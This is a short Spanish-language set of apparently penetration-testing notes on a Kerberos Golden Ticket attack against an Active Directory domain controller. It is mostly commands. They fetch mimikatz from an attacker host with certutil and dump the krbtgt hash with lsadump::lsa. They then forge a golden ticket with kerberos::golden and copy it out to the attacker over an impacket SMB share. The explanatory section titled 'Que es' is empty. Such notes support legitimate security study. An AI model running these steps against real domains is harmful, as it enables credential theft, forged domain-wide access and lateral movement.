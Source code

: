 # Que es un Golden Tiket Attack?

# Efectuar Golden Ticket Attack
Para comenzar debemos subir el `mimikatz` al DC, podemos hacer por con `upload` en una sesión de evil-winrm o con:
```
certutil.exe -f -urlcache -split http://192.168.145.133:8000/mimikatz.exe mimikatz.exe
```
Posteriormente ejecutamos el mimikatz con `mimikatz.exe` y en la sesión interactiva ponemos lo siguiente:
```
lsadump::lsa /inject /name:krbtgt
```

# Movimiento Lateral
Podemos crear un `golden.kirbi` para cargarlo con mimikatz en una máquina y ganar privilegios de acceso a un equipo, para ello en una sesión de mimikatz haremos lo siguiente:
```
kerberos::golden /domain:<dominio>  /sid:<sid_krbtgt> /rc4:<hash_NTLM> /name:<nombre de usuario a Impersonalizar> /ticket:golden.kirbi
```
Luego nos podemos traer ese ticket a nuestro equipo  con `download` en una sesión de evil-winrm o creando un recurso compartido a nivel de red con:

Máquina atacante:
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
Máquina víctima:
```
copy golden.kirby \\<ip_atacante>\smbFolder\golden.kirbi
```
